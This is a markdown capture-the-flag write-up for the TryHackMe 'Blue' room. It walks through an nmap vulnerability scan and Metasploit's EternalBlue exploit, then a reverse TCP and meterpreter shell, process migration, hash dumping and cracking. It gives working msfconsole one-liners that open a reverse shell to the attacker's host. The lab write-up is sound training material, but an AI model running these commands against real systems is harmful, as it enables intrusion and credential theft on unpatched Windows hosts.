 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
hero: '/thm-blue/thm-blue-hero.png'
published: true
---
```


![](/thm-blue/thm-blue-hero.png)  

## Recon  

**Set a terminal environmental variable for target IP address**  

```
export IP=<target-ip-address> 
```

**Run nmap services and vulnerabilities scan**  

```  
nmap -sV -vv --script=vuln $IP  
```  

![](/thm-blue/thm-blue-nmap-command.png)    

**Results**  

![](/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability affecting Microsoft SMBv1 servers (ms17-010).  

More info:  

https://www.exploit-db.com/exploits/41891  

## Exploit  

**Run msfconsole and perform reverse TCP shell exploit**
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We can set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally).  

**Metasploit go brrrr...**    

 ![](/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is now running.  

**Results**  

  ![](/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, but eventually we get a reverse TCP shell.  

**Backgrounding the shell example**    

```  
background  
```  
  
> Ctrl-z does the same thing.  

 ![](/thm-blue/thm-blue-background-example.png)

**Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell**  

**Search for the upgrade script**   
```
search upgrade shell   
```  

 ![](/thm-blue/thm-blue-search-upgrade-shell-1.png)  

**Select the script for use**  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches).  
  A Super l33t hax0r trick about upgrading shells is here...  
 https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html 

 ![](/thm-blue/thm-blue-run-upgrade-shell.png)  

**Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell**  

 ![](/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

**Run the script**  

 > The script ran, but we don't have an upgraded shell...

**Hmmm. Thats not working...**  
 
 For some reason, the script isn't upgrading our reverse TCP shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

**Let's try again**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default. Also, we don't have to set the global variables again, but this is the handy initial one-liner to go back to and use, cause honestly the reverse TCP shell kinda sucks.  

 ![](/thm-blue/thm-blue-meterpreter-default.png)  

**Background the meterpreter session, then view sessions. We started with default meterpreter shell**  

 ![](/thm-blue/thm-blue-meterpreter-session-started.png)

**Reconnect to the meterpreter session and list the current processes running on the target**  

 ![](/thm-blue/thm-blue-meterpreter-ps.png)  

**Get process ID of current meterpreter shell**

 ![](/thm-blue/thm-blue-meterpreter-getpid.png)  

**Migrate to another process and back. Grep is kinda broken...**  

 ![](/thm-blue/thm-blue-meterpreter-migrate.png)  

**Dump the user hashes**  

 ![](/thm-blue/thm-blue-meterpreter-hashdump.png)  

**Quick and dirty hash crack using CrackStation**  

 ![](/thm-blue/thm-blue-crackstation.png)  

**Quick and dirty find flags**  

 ![](/thm-blue/thm-blue-find-flags.png)  

# Donezo Funzo.












